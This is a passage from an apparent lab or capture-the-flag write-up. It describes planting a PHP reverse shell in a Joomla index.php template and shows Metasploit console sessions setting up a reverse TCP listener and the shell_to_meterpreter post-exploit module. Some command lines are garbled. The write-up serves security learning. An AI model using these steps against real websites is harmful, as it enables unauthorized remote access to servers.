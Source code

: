 I then opened the index.php template, saved the original contents to a backup file and copied the shell into the now empty body of the template. Prior to saving and executing I staged up my listener to catch the incoming shell.

```bash
msf5 auxiliary(scanner/http/joomla_version) > use mexploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.182.144    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > set payload rephp/meterpreterprete/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.182.144:4444
```

Additionally after starting a handler, I staged up the `shell_to_meterpreter` post-exploit module so that I could quickly migrate the process from a php worker to a longer lived process in case there was a timeout configured on the webserver.

```bash
msf5 exploit(multi/handler) > search shell_to_meterpreter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


msf5 exploit(multi/handler) > use 0
msf5 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST    10.10.182.144    no        IP of host that will receive the connection from the payload (Will try to auto detect).
```